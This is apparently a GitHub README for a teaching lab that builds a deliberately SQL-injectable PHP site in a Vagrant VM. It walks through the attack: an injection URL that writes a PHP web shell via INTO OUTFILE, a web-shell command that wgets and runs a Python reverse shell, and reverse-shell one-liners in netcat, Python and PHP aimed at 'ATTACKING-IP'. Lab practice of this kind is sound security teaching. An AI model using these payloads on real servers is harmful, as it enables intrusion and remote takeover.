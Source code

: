 SQL INJECTION ATTACK EXAMPLE
============================

This small project is a working example of setting up a website vulnerable to SQL injection with instructions
on how to exploit it to get shell access.

Setup Instructions
----------------------------

In order to setup locally, you will need Virtualbox, Vagrant and Ansible installed on your work machine.

```
// Clone the repository to your work machine.
# git clone git@github.com:doublehops/sql-injection-attack-example.git

// Change into the new directory download and run the virtual machine with:
# vagrant up

// Ensure you can ssh into the virtual machine:
# ssh vagrant@192.168.30.99 -i .vagrant/machines/default/virtualbox/private_key

// Use Ansible to provision (install the webserver, PHP, MariaDB/MYSQL) the box with the following:
# dev/provision.sh local_dev

// Import database schema and data into database:
# dev/ssh-import-database.sh

// Load the webpage in your browser to check all is well: http://192.168.30.99
```

Play Around with SQL Injection
------------------------------

I have added an example of how to exploit an SQL Injection vulnerability by changing the passwords of all users in the user table.
<a href="sql-injection-play.php">SQL Injection Play</a>. You need to reload the page to see the results as the select query is executed before the update request.


Gain Access to Webserver with SQL Injection
-------------------------------------------

Create a PHP script that will run commands
http://10.0.2.2/sql-injection/outfile.php?username=d%27;select%20%22%3C?php%20system($_GET[%27cmd%27]);%22%20into%20outfile%20%22/var/www/web/images/cmd.php%22;

PYTHON BACKDOOR

Download Python reverse shell
http://10.0.2.2/images/cmd.php?cmd=wget%20http://10.0.2.2/scripts/reverse-shell.py -O /tmp/reverse-shell.py

Run new Python backdoor script
http://10.0.2.2/images/cmd.php?cmd=/tmp/reverse-shell.py




NOTES
----------

Setup host machine for incoming connections:
`nc -nvlp 4444`

Run reverse shell command on foreign machine:

Netcat reverse shell:
`nc.traditional -e /bin/sh <host> 4444`

Python reverse shell:
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

PHP reverse shell:
`php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'`
